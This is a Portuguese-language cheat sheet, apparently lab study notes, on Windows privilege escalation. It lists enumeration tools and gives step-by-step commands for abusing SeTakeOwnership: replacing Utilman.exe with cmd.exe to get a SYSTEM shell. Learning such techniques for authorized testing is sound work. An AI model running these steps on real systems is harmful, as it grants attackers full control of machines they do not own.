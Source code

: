 # 🖥 Priv Esc Windows

# 🛠️ Ferramentas e Recursos

## 🪟 WinPEAS
- Ferramenta para enumeração de escalonamento de privilégios no Windows.

## 🪟 PrivescCheck
- Script PowerShell para busca de vulnerabilidades comuns.
- Repositório: [PrivescCheck](https://github.com/itm4n/PrivescCheck)

## 🪟 WES-NG
- Ferramenta para sugerir exploits com base em patches ausentes.
- Repositório: [WES-NG](https://github.com/bitsadmin/wesng)
- Atualização do banco de dados:
  ```bash
  wes.py --update
  ```
## 🪟 Enumeração para priv esc windows: 
```bash
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

## 📂 Busca de arquivos específicos
```bash
Get-ChildItem “*interesting-file*” -Path C:\ -Recurse -ErrorAction SilentlyContinue
```
## 🔍 Verificando Privilégios
```cmd
whoami /priv
```
### 📌 Lista de Privilégios Exploráveis
- Repositório útil: [Priv2Admin](https://github.com/gtworek/Priv2Admin)

---

## 🛠️ SeTakeOwnership
### 🔍 O que é?
O privilégio `SeTakeOwnership` permite que um usuário tome posse de qualquer objeto no sistema, incluindo arquivos e chaves de registro.

### 📌 Exemplo de Exploração (Utilman.exe)
1. Tomar posse do arquivo:
   ```cmd
   takeown /f C:\Windows\System32\Utilman.exe
   ```
2. Conceder permissões:
   ```cmd
   icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
   ```
3. Substituir por `cmd.exe`:
   ```cmd
   copy cmd.exe utilman.exe
   ```
4. Clicar no botão "Ease of Access" para obter um prompt de comando com privilégios de SYSTEM.

---